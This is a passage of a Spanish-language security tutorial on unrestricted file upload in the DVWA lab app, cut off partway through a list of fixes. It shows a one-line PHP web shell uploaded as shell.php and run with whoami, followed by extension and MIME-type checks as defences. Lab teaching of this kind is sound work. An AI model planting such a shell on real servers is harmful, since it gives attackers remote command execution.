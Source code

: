 
##### ✅ B. Ir a la sección: _File Upload_

```
http://localhost/dvwa/vulnerabilities/upload/
```

Sube un archivo `.php` como este:

```php
<?php system($_GET["cmd"]); ?>
```

Lo nombras: `shell.php`

---

##### ✅ C. Verifica que se subió

Visita:

```
http://localhost/dvwa/hackable/uploads/shell.php?cmd=whoami
```

✔️ Verás el resultado del comando.

---

### 🔒 ¿Cómo prevenir Unrestricted File Upload?

#### ✅ 1. Verificar la **extensión** del archivo

```php
$permitidas = ['jpg', 'png', 'gif'];
$ext = strtolower(pathinfo($_FILES['archivo']['name'], PATHINFO_EXTENSION));

if (!in_array($ext, $permitidas)) {
    die("Extensión no permitida");
}
```

---

#### ✅ 2. Verificar el **tipo MIME** real del archivo

```php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$tipo = finfo_file($finfo, $_FILES['archivo']['tmp_name']);

if (!in_array($tipo, ['image/jpeg', 'image/png'])) {
    die("Archivo no válido");
}
```

---

#### ✅ 3. Renombrar el archivo
